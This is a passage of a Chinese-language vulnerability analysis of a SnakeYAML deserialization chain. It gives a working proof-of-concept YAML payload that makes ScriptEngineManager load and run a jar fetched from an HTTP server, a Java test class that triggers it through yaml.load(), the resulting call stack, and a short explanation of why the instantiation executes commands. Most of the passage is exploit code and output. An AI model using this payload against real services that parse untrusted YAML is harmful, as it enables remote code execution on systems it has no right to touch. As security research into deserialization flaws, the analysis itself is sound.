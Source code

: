 ```bash
python -m http.server 8080
```

POC：

```bash
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://127.0.0.1:8080/yaml-payload.jar"]
  ]]
]
```

测试类：

```bash
package SnakeYaml;

import org.yaml.snakeyaml.Yaml;

public class PocTest2 {
    public static void main(String[] args) {
        String poc = "!!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL [\"http://127.0.0.1:8080/yaml-payload.jar\"]]]]\n";
        Yaml yaml = new Yaml();
        yaml.load(poc);
    }
}
```

函数调用栈：

```bash
nextService:381, ServiceLoader$LazyIterator (java.util)
next:404, ServiceLoader$LazyIterator (java.util)
next:480, ServiceLoader$1 (java.util)
initEngines:122, ScriptEngineManager (javax.script)
init:84, ScriptEngineManager (javax.script)
<init>:75, ScriptEngineManager (javax.script)
newInstance0:-1, NativeConstructorAccessorImpl (sun.reflect)
newInstance:62, NativeConstructorAccessorImpl (sun.reflect)
newInstance:45, DelegatingConstructorAccessorImpl (sun.reflect)
newInstance:422, Constructor (java.lang.reflect)
construct:570, Constructor$ConstructSequence (org.yaml.snakeyaml.constructor)
construct:331, Constructor$ConstructYamlObject (org.yaml.snakeyaml.constructor)
constructObjectNoCheck:229, BaseConstructor (org.yaml.snakeyaml.constructor)
constructObject:219, BaseConstructor (org.yaml.snakeyaml.constructor)
constructDocument:173, BaseConstructor (org.yaml.snakeyaml.constructor)
getSingleData:157, BaseConstructor (org.yaml.snakeyaml.constructor)
loadFromReader:490, Yaml (org.yaml.snakeyaml)
load:416, Yaml (org.yaml.snakeyaml)
main:10, PocTest2 (SnakeYaml)
```

前面的大致步骤还是和 JdbcRowSetImpl 链的过程一致，这里的关键在于 Constructor 不一致，这里是 ConstructSequence，在对 ScriptEngineManager 实例化的过程中就会触发命令执行  